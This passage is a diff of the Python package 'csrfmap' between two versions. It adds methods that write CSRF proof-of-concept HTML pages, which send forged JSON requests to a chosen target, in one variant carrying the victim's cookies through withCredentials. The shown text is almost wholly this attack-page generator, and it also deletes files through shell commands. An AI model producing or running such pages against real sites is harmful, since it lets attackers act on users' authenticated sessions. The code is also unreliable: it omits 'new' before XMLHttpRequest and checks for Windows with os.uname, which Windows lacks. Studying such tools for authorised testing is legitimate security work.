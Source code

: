 ```diff
+            f"\tcsrf.open(\"{self.__method}\",\"{self.__action}\");\r\n",
+            "\tcsrf.setRequestHeader(\"Content-Type\",\"application/json\");\r\n"
+            ]
+
+        if "csrfjson1.html" in os.listdir():
+            if "Linux" in list(os.uname()):
+                os.system("rm -f csrfjson1.html")
+            elif "Windows" in list(os.uname()):
+                os.system("del csrfjson1.html")    
+
+        with open("./csrfjson1.html","a") as arquivo:
+            for tag in lista:
+                arquivo.write(tag)
+                if "setRequestHeader" in tag:
+                    arquivo.write(f"\tcsrf.send({dicionario});\r\n")
+                    arquivo.write(f"\t</script>\r\n")
+                    arquivo.write(f"</body>\r\n")
+                    arquivo.write(f"</html>")
+
+    def CSRFJsonCredentials(self:object):
+        dicionario = {}
+        for name,value in enumerate(self.__name):
+            dicionario[self.__name[name]] = self.__value[name]
+        
+        lista = ["<!DOCTYPE html>\r\n",
+            "<html lang=\"pt-br\">\r\n",
+            "<body>\r\n",
+            "\t<script>\r\n",
+            "\tvar csrf = XMLHttpRequest();\r\n",
+            f"\tcsrf.open(\"{self.__method}\",\"{self.__action}\");\r\n",
+            "\tcsrf.setRequestHeader(\"Content-Type\",\"application/json\");\r\n",
+            "\tcsrf.withCredentials = true;\r\n"
+            ]
+
+        if "csrfjson2.html" in os.listdir():
+            if "Linux" in list(os.uname()):
+                os.system("rm -f csrfjson2.html")
+            elif "Windows" in list(os.uname()):
+                os.system("del csrfjson2.html")      
+
+        with open("./csrfjson2.html","a") as arquivo:
+            for tag in lista:
+                arquivo.write(tag)
+                if "withCredentials" in tag:
+                    arquivo.write(f"\tcsrf.send({dicionario});\r\n")
+                    arquivo.write(f"\t</script>\r\n")
+                    arquivo.write(f"</body>\r\n")
                     arquivo.write(f"</html>")
```

### Comparing `csrfmap-0.0.1/csrfmap.egg-info/PKG-INFO` & `csrfmap-0.0.2/csrfmap.egg-info/PKG-INFO`
